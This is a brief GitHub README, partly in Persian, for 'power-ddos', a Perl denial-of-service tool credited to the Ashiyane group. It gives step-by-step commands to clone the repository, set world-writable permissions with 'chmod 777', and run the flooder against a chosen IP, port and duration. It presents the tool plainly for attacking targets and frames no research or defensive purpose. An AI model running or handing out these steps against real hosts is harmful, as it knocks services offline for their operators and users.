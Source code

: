 # power-ddos
ashiyane ddoser perl

یک ابزار دیداس از آشیانه با پرل

_____________________

***run:***

`git clone https://github.com/Mr-Root/power-ddos`

`cd power-ddos`

`chmod 777 *`

`perl power-ddos.pl <ip> <port> <time>`

برای اجرا کافیه آیپی و پورت و تایم دیداس را در پرل به او بدهید با  perl power-ddos.pl ران کنید و متوجه میشید

__________
perl power-ddos.pl 127.0.0.1 80 10
__________
# THE mr ROOT
